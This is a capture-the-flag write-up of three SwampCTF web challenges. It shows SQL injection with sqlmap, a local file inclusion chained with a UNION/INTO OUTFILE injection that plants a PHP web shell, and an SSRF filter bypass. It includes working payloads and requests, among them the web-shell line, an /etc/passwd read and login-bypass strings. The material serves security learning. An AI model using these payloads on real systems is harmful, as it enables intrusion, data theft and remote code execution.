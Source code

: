 #### BrailleDB-1

![[Pasted image 20240407223118.png]]

Try to input single quote and it gives us an error

```asciidoc
<br />
<b>Fatal error</b>: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near &quot;'''&quot;
LINE 1: ...CT braille_representation FROM braille WHERE character = '''
^ in /var/www/html/api/braille.php:33
Stack trace:
#0 /var/www/html/api/braille.php(40): charToBraille(''')
#1 {main}
thrown in <b>/var/www/html/api/braille.php</b> on line <b>33</b><br />
```

We may have SQL injection, copy the request and save it in file, lets name it req.txt and run sqlmap on it

```shell
sqlmap -r req.txt --batch --dbs --level 3
```

```shell
[*] information_schema
[*] pg_catalog
[*] public
```

We get few database names, the one we are interested in is 'public', now enumerate the tables in the database 'public'

```shell
sqlmap -r req.txt -D public --tables --batch --level 3
```

```shell
+----------+
| braille  |
| feedback |
| flag     |
+----------+
```

We want to dump the data of table 'flag'

```shell
sqlmap -r req.txt -D public -T flag --batch --dump-all --level 3
```

And we get the flag
**_flag : swampCTF{Un10n_A11_Th3_W4yyy!}_**

---

#### UnderConstruction

Visit the given web page and in front of us we see

![[Pasted image 20240407223140.png]]

So there is a page query parameter and it id loading a page based on the name given to it, the first thing that comes to my mind is LFI so lets try adding basic LFI payload, generally the websites are hosted from /var/www/html so we need to go back atleast 3 directories

```url
http://chals.swampctf.com:60310/?page=../../../etc/passwd
```

And we get the response

```http
HTTP/1.1 200 OK
Date: Sun, 07 Apr 2024 17:04:27 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Length: 978
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

So there is only one user that is the root user

The hint given to us is that we have to chain 2 vulnerabilities so lets see if we can find another one as well. We can see that there is an option of Admin login lets click on that

![[Pasted image 20240407223618.png]]

Again the file being loaded using the page parameter and we know we have LFI
Lets try SQL injection on the login form

```SQL
username: admin' or 1=1-- -
password: randomData
```

And we get login successful

![[Pasted image 20240407223818.png]]

We can also see that whatever we type is being reflected back so we may also have reflected XSS, we can try that too

```SQL
username: admin' or 1=1-- -<script>alert(10)</script>
password : asdf
```

And we get a pop up

![[Pasted image 20240407224140.png]]

This is although useless but good to try and find other vulnerabilities as well for practice

Now we need to chain SQL injection and LFI, how can we do that?

Lets try using SQL Union queries and find the number of columns

```SQL
username: a' or 1=1 union select 1 from information_schema.tables-- -
password: asdf
```

It gives back the response

![[Pasted image 20240407224544.png]]

```text
Login failed! Please try again.
The used SELECT statements have a different number of columns
```

Lets try with 2 columns

```SQL
a' or 1=1 union select 1,2 from information_schema.tables-- -
```

Still Login failed
Now with 3 columns

```sh
a' or 1=1 union select 1,2,3 from information_schema.tables-- -
```

And we get a successful login

![[Pasted image 20240407224736.png]]

```asciidoc
Login successful! Welcome back, a' or 1=1 union select 1,2,3 from information_schema.tables-- -!
```

The next step was new to me. The thing is even though it shows login successful, nothing changes, no cookie is set whatsoever nor does the previous page which had site under construction changes so we need to do something with just the SQL commands.
First I try to figure out the version of SQL and more information about the database
using sqlmap, we can also do it manually

I found this

```asciidoc
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

This step is where it gets interesting, these is a command called `into outfile`

This is what the official documentation says

``SELECT INTO OUTFILE` writes the resulting rows to a file, and allows the use of column and row terminators to specify a particular output format.`

You can read more about it on [Into Outfile](https://mariadb.com/kb/en/select-into-outfile/)

Basically we want to write to a file then open it using LFI, in that file we pass command injection payload like

```php
<?php system($_GET['cmd']);?>
```

Since the server is running on php, this should work
Here is what our SQL query will look like

```SQL
' union select null,null,"<?php system($_GET['cmd']);?>" into outfile "/tmp/command.php"-- -
```

![[Pasted image 20240407232425.png]]

We will get a login failed but that doesnt matter
Now all we have to do is open this file using LFI and add query parameter `cmd` to the request, this is how our request will look like

```url
http://chals.swampctf.com:60310/?page=../../../tmp/command.php&cmd=id
```

![[Pasted image 20240407232503.png]]

We pass `ls` to command parameter and find out that the name of file is `super_secret_flag_plz_no_read.txt`

![[Pasted image 20240407232545.png]]

Lets do

```url
http://chals.swampctf.com:60310/?page=../../../tmp/command.php&cmd=cat%20%20super_secret_flag_plz_no_read.txt
```

And we get the flag

![[Pasted image 20240407232639.png]]

**_flag : swampCTF{ch4ining_Vu1ns_I5_Pr3tty_C0Ol}_**

---

#### MemeGenerator

- Looking around the website the most interesting features are to create a meme, and to load in a custom image

- When you load an image from a URL it makes a POST request to loadImages, with the payload `{imageURL: INPUT}`
        - Something like this is potentially vulnerable to SSRF

- If you set the URL to be \https://example.com, the response returned is what you would get if you make a request to \https://example.com directly

- Trying \http://localhost:5000 to see what the developers may be exposing locally, you get the error "Your request was blocked for security reasons
        - A cheat sheet like this has resources on how to bypass this filter: \https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

- Trying \http://127.1:5000 bypasses the filter, but we see the same landing page

- Doing a dirb on the website reveals that there is a page /admin, that returns a 403, but maybe not on localhost

- Doing SSRF with \http://127.1:5000/admin gives you the security error again

- The payload \http://127.1:5000/%61dmin byasses this payload and you get the flag